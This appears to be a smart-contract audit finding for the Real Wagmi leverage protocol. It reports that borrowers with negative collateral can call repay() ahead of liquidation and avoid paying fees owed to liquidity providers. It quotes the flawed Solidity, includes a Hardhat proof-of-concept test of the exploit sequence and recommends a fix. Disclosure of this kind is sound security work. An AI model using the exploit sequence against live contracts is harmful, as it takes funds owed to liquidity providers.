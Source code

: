 Jumpy Arctic Turkey

high

# Liquidity providers can lose fees
## Summary
The borrower can cause loss for liquidity providers.
## Vulnerability Detail
Borrowers can use the repay() function when they have a negative collateral balance. Due to that they can cause a loss for liquidity providers.

When the borrower's collateral balance is negative, the currentFees will be equal to dailyRateCollateralBalance.
```solidity
if (
                collateralBalance > 0 &&
                (currentFees + borrowing.feesOwed) / Constants.COLLATERAL_BALANCE_PRECISION >
                Constants.MINIMUM_AMOUNT
            ) {
                liquidationBonus +=
                    uint256(collateralBalance) /
                    Constants.COLLATERAL_BALANCE_PRECISION;
            } else {
                currentFees = borrowing.dailyRateCollateralBalance; //@audit !!
            }
```

The feesOwned that liquidity providers receive after will be equal to the [current fees minus the platform fees](https://github.com/sherlock-audit/2023-10-real-wagmi/blob/b33752757fd6a9f404b8577c1eae6c5774b3a0db/wagmi-leverage/contracts/LiquidityBorrowingManager.sol#L578).  Due to the current fees not being equal to the [correct amount](https://github.com/sherlock-audit/2023-10-real-wagmi/blob/b33752757fd6a9f404b8577c1eae6c5774b3a0db/wagmi-leverage/contracts/abstract/DailyRateAndCollateral.sol#L110-L114), the liquidityOwnerReward will be less than it should be.

```solidity
uint256 liquidityOwnerReward = FullMath.mulDiv(
                params.totalfeesOwed,
                cache.holdTokenDebt,
                params.totalBorrowedAmount
            ) / Constants.COLLATERAL_BALANCE_PRECISION;

            Vault(VAULT_ADDRESS).transferToken(cache.holdToken, creditor, liquidityOwnerReward);
```
## Impact
The borrower can avoid paying fees and cause losses for liquidity providers by front-running the liquidate transaction and using the repay() function to close their position when someone tries to liquidate them.
## Code Snippet

WagmiLeverageTests.ts

```ts
it("Test Negative Collateral Balance", async () => {
        const amountWETH = ethers.utils.parseUnits("0.88", 18);
        const deadline = (await time.latest()) + 60;
        const minLeverageDesired = 50;
        const maxCollateral = amountWETH.div(minLeverageDesired);

        const loans = [
            {
                liquidity: nftpos[1].liquidity,
                tokenId: nftpos[1].tokenId,
            },
        ];

        const swapParams: ApproveSwapAndPay.SwapParamsStruct = {
            swapTarget: constants.AddressZero,
            swapAmountInDataIndex: 0,
            maxGasForCall: 0,
            swapData: swapData,
        };

        const params: LiquidityBorrowingManager.BorrowParamsStruct = {
            internalSwapPoolfee: 500,
            saleToken: USDT_ADDRESS,
            holdToken: WETH_ADDRESS,
            minHoldTokenOut: amountWETH,
            maxCollateral: maxCollateral,
            externalSwap: swapParams,
            loans: loans,
        };
        console.log("Before Borrow :", await WETH.balanceOf(bob.address));

        await borrowingManager.connect(bob).borrow(params, deadline);

        console.log("After Borrow :", await WETH.balanceOf(bob.address));

        await time.increase(86400 * 100);

        //console.log(await borrowingManager.getBorrowerDebtsInfo(bob.address));
        console.log("collateralBalance :", -198547385017603584220746951553775132);

        const borrowingKey = await borrowingManager.userBorrowingKeys(bob.address, 0);
        const deadline1 = (await time.latest()) + 60;

        let params1 = {
            isEmergency: false,
            internalSwapPoolfee: 500,
            externalSwap: swapParams,
            borrowingKey: borrowingKey,
            swapSlippageBP1000: 990, //1%
        };
        
        await borrowingManager.connect(bob).repay(params1, deadline1); 
        console.log("After Repay :", await WETH.balanceOf(bob.address));
        
    });
```
## Tool used

Manual Review

## Recommendation
The borrower should not be able to close their position if their collateral balance is negative. If the borrower's position is in profit, the liquidity provider's fee must be paid from that profit before the position is closed.